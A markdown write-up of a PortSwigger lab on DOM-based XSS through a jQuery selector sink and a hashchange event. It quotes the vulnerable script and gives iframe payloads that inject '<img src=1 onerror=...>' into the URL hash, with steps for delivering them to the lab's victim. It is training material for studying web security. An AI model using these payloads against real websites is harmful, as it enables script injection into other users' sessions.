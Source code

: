 # [Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

- Challenge information:
  - <img width="656" height="151" alt="image" src="https://github.com/user-attachments/assets/0ea0707c-8ead-43d6-95c6-daaef0dcd34f" />
- Solution:
  - <img width="1174" height="884" alt="image" src="https://github.com/user-attachments/assets/0c0041d5-5984-4d40-b55b-8942e7e6b59d" />
  - Website has an autoscroll implemented and we need to abuse that to make the browser execute the print() function
  - Relevant JavaScript code in HTML:
  ```javascript
  <script>
  $(window).on('hashchange', function(){
  var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
  if (post) post.get(0).scrollIntoView();
  });
  </script>
  ```
  - JQuery hashchange event tracks URL history changes
  - If a a change happens, `decodeURIComponent` will be called on the `window.location.hash` -> If that part of the page exists, the browser will scroll to it
  - Exploit code: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
    - Exploit code is sent to a victim (the lab's exploit server)
    - Initial src has an empty hash (# followed by nothing), then the src is updated with a new hash using the onload function
    - This triggers the hashchange listener
    - Result: website calls `decdoeURIComponent` on the new value (which is an XSS) and the alert() function is triggered
    - New exploit: `<iframe src="https://0a20009d04571dc2807f128a001e0075.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print(1)>'">`
  - Go to exploit server and enter the exploit in as the body of the exploit:
    - <img width="1174" height="884" alt="image" src="https://github.com/user-attachments/assets/6fcc34a3-8dec-45ed-90ba-4495544475d5" />
    - Then click "Store" and then "View exploit": <img width="1174" height="624" alt="image" src="https://github.com/user-attachments/assets/6ca86abd-7b72-4194-8611-3e9c2d5c6284" />
    - Then click "Deliver exploit to victim": <img width="1174" height="321" alt="image" src="https://github.com/user-attachments/assets/f4cadcf0-9271-4411-a9db-28d01bfef190" />
- Explanation:
  - DOM-based XSS attack: Malicious input will be passed to a sink that supports dynamic code execution through JQuery
